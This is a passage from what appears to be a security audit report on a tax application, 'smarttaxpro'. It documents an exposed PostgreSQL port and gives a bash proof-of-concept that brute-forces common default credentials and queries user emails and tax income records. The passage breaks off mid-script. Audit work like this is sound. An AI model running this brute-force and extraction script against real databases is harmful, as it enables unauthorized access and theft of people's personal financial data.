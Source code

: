 
## 🟠 High Finding #5: Database Direct Access

### Description
PostgreSQL database exposed on port 5432 allowing direct access.

### Location
`docker-compose.yml:13`

### Exploit Steps
1. **Port Scan**: Discover exposed PostgreSQL port
2. **Brute Force**: Attempt common credentials
3. **Direct Access**: Connect directly to database
4. **Data Theft**: Extract all user data and tax information

### PoC Script
```bash
#!/bin/bash
# Database Direct Access PoC

echo "=== Database Direct Access Vulnerability Demonstration ==="

# Step 1: Check if PostgreSQL port is exposed
echo "1. Scanning for exposed PostgreSQL port..."
if nc -z localhost 5432; then
    echo "   ✅ PostgreSQL port 5432 is accessible"
else
    echo "   ❌ PostgreSQL port not accessible"
    exit 1
fi

# Step 2: Attempt connection with common credentials
echo "2. Attempting database connection with common credentials..."

# Common PostgreSQL credentials to try
CREDENTIALS=(
    "smarttaxpro:supersecretpassword"
    "postgres:postgres"
    "admin:admin"
    "user:password"
)

for cred in "${CREDENTIALS[@]}"; do
    IFS=':' read -r user pass <<< "$cred"
    echo "   Trying: $user/$pass"
    
    # Attempt connection (would be actual psql command in real scenario)
    PGPASSWORD="$pass" psql -h localhost -U "$user" -d smarttaxpro -c "\dt" 2>/dev/null
    if [ $? -eq 0 ]; then
        echo "   ✅ Database access achieved with $user/$pass"
        
        # Step 3: Extract sensitive data
        echo "3. Extracting sensitive user data..."
        PGPASSWORD="$pass" psql -h localhost -U "$user" -d smarttaxpro \
          -c "SELECT email, role FROM users LIMIT 5;"
        
        echo "4. Extracting tax form data..."
        PGPASSWORD="$pass" psql -h localhost -U "$user" -d smarttaxpro \
          -c "SELECT id, status, total_income FROM tax_forms LIMIT 5;"
        
        break
    fi
```